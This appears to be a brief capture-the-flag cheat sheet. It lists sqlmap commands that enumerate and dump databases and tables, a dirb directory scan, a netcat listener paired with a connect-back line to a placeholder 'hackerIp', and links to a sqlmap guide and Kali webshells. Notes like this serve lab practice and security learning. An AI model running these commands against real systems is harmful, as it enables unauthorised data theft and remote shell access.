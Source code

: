 # ctf

sqlmap -u url --dbs
sqlmap - u url --dbs blog --tables
sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump

sqlmap -u url -D database --dump-all --batch
sqlmap -u url --dbs --batch


dirb url

netcat -lnvp 9191 
nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/

cp file newName ========= le nouveau local c'est ou tu est positionner 

https://www.kali.org/tools/webshells/
